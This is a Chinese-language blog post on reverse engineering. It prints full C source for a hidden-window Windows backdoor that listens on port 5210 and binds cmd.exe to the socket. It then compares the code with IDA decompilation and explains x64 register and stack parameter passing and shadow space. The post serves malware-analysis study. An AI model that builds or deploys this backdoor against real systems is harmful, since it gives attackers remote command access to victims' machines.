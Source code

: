+++
title = '从正向木马编写看逆向工程'

description = "新手村知识"

tags = [ "技术" ]

date = 2020-11-26T20:11:59+08:00

+++

​	提高样本分析能力，最重要的事情之一就是先正向编写木马。之前简单编译过一个程序，今天搜了一个非常简单的后门，比较一下反编译的结果和源码的区别。

​	源码如下。

```
#pragma comment(lib,"ws2_32.lib")  //这里我们静态加入一个lib文件，也就是ws2_32.lib</font>

#pragma comment(linker,"/subsystem:\"windows\"/entry:\"mainCRTStartup\"") //设置连接器选项

#include <winsock2.h> //包含头文件winsock2.h,这个是 windows socket的头文件

#include <windows.h> //常用的，不解释

#define MasterPort 5210 //定义一个常量，也就是我们后面要打开的端口

main()   //主函数不解释
{
  WSADATA WSADa; //这个结构被用来存储被WSAStartup函数调用后返回的Windows Sockets数据。后面的基本上差不多就不解释，不懂请大家自行百度
  sockaddr_in SockAddrIn; 
  SOCKET CSocket,SSocket;
  int iAddrSize;
  PROCESS_INFORMATION ProcessInfo;
  STARTUPINFO StartupInfo;
  char szCMDPath[255];
  
  //分配内存，初始化数据
  ZeroMemory(&ProcessInfo,sizeof(PROCESS_INFORMATION));
  ZeroMemory(&StartupInfo,sizeof(STARTUPINFO));
  ZeroMemory(&WSADa,sizeof(WSADATA));

  //获取cmd路径
  GetEnvironmentVariable("COMSPEG",szCMDPath,sizeof(szCMDPath));

  //加载ws2_32.dll
  WSAStartup(0x0202,&WSADa);

  //设置本地信息和绑定协议,建立socket,代码如下:
  SockAddrIn.sin_family = AF_INET;
  SockAddrIn.sin_addr.s_addr = INADDR_ANY;
  SockAddrIn.sin_port = htons(MasterPort);
  CSocket = WSASocket(AF_INET,SOCK_STREAM,IPPROTO_TCP,NULL,0,0);

  //设置绑定端口，将SockAddrIn绑定到CSocket。
  bind(CSocket,(sockaddr *)&SockAddrIn,sizeof(SockAddrIn));

  //设置服务器端监听端口
  listen(CSocket,1);
  iAddrSize = sizeof(SockAddrIn);

  //开始连接远程服务器，并配置隐藏窗口结构体
  SSocket = accept(CSocket,(sockaddr *)&SockAddrIn,&iAddrSize);

  StartupInfo.cb = sizeof(STARTUPINFO);

  StartupInfo.wShowWindow = SW_HIDE;
  
  StartupInfo.dwFlags = STARTF_USESTDHANDLES |

  STARTF_USESHOWWINDOW;

  StartupInfo.hStdInput = (HANDLE)SSocket;

  StartupInfo.hStdOutput = (HANDLE)SSocket;

  StartupInfo.hStdError = (HANDLE)SSocket;
  
  //创建匿名管道：

  CreateProcess(NULL, szCMDPath, NULL, NULL, TRUE, 0, NULL, NULL, &StartupInfo, &ProcessInfo);

  WaitForSingleObject(ProcessInfo.hProcess, INFINITE);

  CloseHandle(ProcessInfo.hProcess);

  CloseHandle(ProcessInfo.hThread);

 

  //关闭进程句柄：

  closesocket(CSocket);

  closesocket(SSocket);

  WSACleanup();

    //关闭连接卸载ws2_32.dll

  return 0;

  }
```

实际IDA反编译出来的效果如下：

![](https://pub-f40a9f95639d4cee81dcb09d9b4adf70.r2.dev/blog/2024/12/14579c8d6365d8c8ebbc49c59bfc8563.png)

可以看到反编译的结果，库的导入和局部变量的定义是没有的，应该是编译过程中，在链接操作之前这些就已经执行完成了。

简单来说这个程序的功能就是开放5210端口，并监听。然后把输入重定向到新起cmd进程，并把cmd进程的输出重定向到5210端口。

##### 对64位下传参的测试

![](https://pub-f40a9f95639d4cee81dcb09d9b4adf70.r2.dev/blog/2024/12/4df417ee0c925a50506052e490c72dfa.png)

传4个参数及以下，使用的是寄存器传参，cd89，第一个参数传到c，第二个参数传到d，第三个参数传到8，第四个参数传到9。从顺序上来看，从右往左，先从第四个开始传，再从第三个开始传...(最后三句汇编)。

![](https://pub-f40a9f95639d4cee81dcb09d9b4adf70.r2.dev/blog/2024/12/7cfa50c168c605c3f3c348bc87cc3891.png)

传5个参数及以上，前四个使用寄存器传参，从第五个开始使用堆栈传参(上图是传完了之后的结果，汇编侧可以看到寄存器的使用)。可以看到第五个参数先使用了寄存器将参数从rbp-14h中取出来(寻址方式。反映变化趋势的方面，栈由高地址向低地址生长，参数由低地址向高地址生长。x64dbg的上面是栈顶低地址下面是栈底高地址)。rbp-14h=DCC，实际上一个堆栈存放一段数据，可能是一个参数也可能是两个参数？例如DD0处存放了00000002和00000003。

![](https://pub-f40a9f95639d4cee81dcb09d9b4adf70.r2.dev/blog/2024/12/d8c9290af6a1335497314da67801034c.png)

然后又赋给了rsp+20，最后把eax中存放的第一个参数赋给ecx。

![0880c08b0110ebe3d330](C:\Users\lizhenxin\AppData\Roaming\LanxinSoftCustom\LxResource\Images\0880c08b0110ebe3d330.png)

比较奇怪的是为什么不在栈顶。

## 栈传参 & Shadow Space（影子空间）

- Windows 要求每个函数调用在栈上为前 4 个参数 **预留 32 字节** 的空间，叫做 **shadow space**。
- 不论是否用到了栈，这块空间都要保留（供被调用者在需要时将寄存器值保存到这里）。

📦 结构如下（函数调用前）：

```
High address
+-------------------+
| 参数5（如有）       | ← 栈上传递
| 参数6（如有）       |
+-------------------+
| Shadow Space (32B)| ← 必须保留
| [RCX]             |
| [RDX]             |
| [R8]              |
| [R9]              |
+-------------------+
| Return Address    |
+-------------------+
Low address (RSP)
```
